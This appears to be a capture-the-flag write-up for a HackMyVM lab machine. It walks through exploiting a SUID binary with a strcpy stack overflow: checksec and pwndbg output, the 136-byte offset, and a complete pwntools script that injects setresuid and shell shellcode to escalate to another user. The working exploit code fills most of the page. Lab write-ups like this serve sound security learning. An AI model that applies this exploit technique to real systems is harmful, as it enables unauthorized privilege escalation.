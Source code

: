 ```yaml
---
title: 'heackmyvmRegistry'
date: 2024-11-07 13:00:00 +0800
categories: [hack,pwn]
tags: []
---
```

### program

```shell
bamuwe@bamuwe:~$ checksec program
[*] '/program'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

> 保护全关，可以考虑写入shellcode

```c
char *__fastcall vuln(const char *a1)
{
  char dest[128]; // [rsp+10h] [rbp-80h] BYREF

  return strcpy(dest, a1);		//stackoverflow
}
```

> 漏洞函数

```shell
bamuwe@bamuwe:/mnt/c/Users/qianenzhao/Desktop/R$ gdb program
...
pwndbg> set args `cyclic 200`
pwndbg> r
*RIP  0x4011d9 (vuln+47) ◂— ret
____________________________________________________
 ► 0x4011d9 <vuln+47>    ret    <0x6261616b6261616a>
 ...
 bamuwe@bamuwe:~$ cyclic -l 0x6261616b6261616a
136
```

> 确定padding=136

```shell
www-data@registry:/opt/others$ ls -l
ls -l
total 16
-rwsr-xr-x 1 cxdxnt cxdxnt 15976 Jul 24  2023 program
```

思路：

1. 写入`shellcode`，填充到`ret`指令，再调用`call rax`执行`shellcode`

			2. `shellcode`由提升权限`(cxdxnt)`和获取`shell`两部分组成

```python
from pwn import *
context.arch = 'amd64'
shellcode = asm(shellcraft.setresuid())+asm(shellcraft.sh())
padding = 136
payload = shellcode.ljust(padding,b'A')+p32(0x401014)
shell = process(['./program',payload])
shell.interactive()
```



